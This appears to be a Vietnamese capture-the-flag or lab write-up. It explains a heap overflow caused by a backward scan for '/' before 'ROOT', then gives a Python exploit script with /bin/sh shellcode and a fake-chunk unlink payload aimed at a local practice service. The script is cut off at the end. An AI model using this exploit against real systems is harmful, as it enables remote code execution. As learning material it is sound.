 ![alt text](image-10.png)

Đoạn code này khai báo 2 con trỏ kiểu `char` là 1 biến kiểu `int`. Con trỏ `p` sẽ trỏ tới vị trí cuối cùng mà kí tự `'/'` xuất hiện trong xâu `buf`, trong khi `l` lưu độ dài của xâu `p` (tính bằng số ký tự từ vị trí mà `p` trỏ tới đến khi gặp `\0`).

Nếu con trỏ `p` nhận giá trị khác `null`, con trỏ `start` sẽ trỏ đến vị trí đầu tiên mà xâu `"ROOT"` xuất hiện trong `buf`. Tiếp theo `start` sẽ trỏ đến vị trí của ký tự `'/'` đầu tiên ngay trước xâu `"ROOT"`, cuối cùng là ghi đè vùng nhớ bắt đầu từ vị trí này bởi các byte ở vùng nhớ `p` đang trỏ tới (`l` byte). 

Vậy vấn đề ở đâu? Để ý kỹ hơn, mình thấy nếu như trong xâu `buf` đang được truyền vào hàm không có ký tự `'/'` nào trước `"ROOT"`, con trỏ `start` sẽ bị tràn sang xâu liền trước (trong heap thì sẽ là đoạn chunk liền trước), như vậy ta có thể ghi đè lên vùng nhớ không mong muốn. Đặc biệt hơn, nếu có thể ghi đè vùng nhớ này theo ý của mình thì hoàn toàn có thể khai thác được lỗi unlink tương tự như bài heap3.
```py
import socket
import struct
import telnetlib

REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2993))

def pad(m):
        padding  = "\x00" * (REQSZ - len(m))
        _m = "FSRD" + m + padding
        return _m[:REQSZ]

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

s.send(pad("/ROOT///" + "/" * 12 + "\xeb\x0e" + "AABBBBCCCCDDDD" + shellcode + "/" * 128))
fake_chunk = struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc)
fake_chunk += struct.pack("I", 0x0804d41c-12) + struct.pack("I", 0x0804e020)
s.send(pad("ROOT/" + fake_chunk))

while True:
        msg = raw_input("> ")
        if msg:
                print "msg: {}".format(repr(pad(msg)))
                s.send(pad(msg))
        else:
```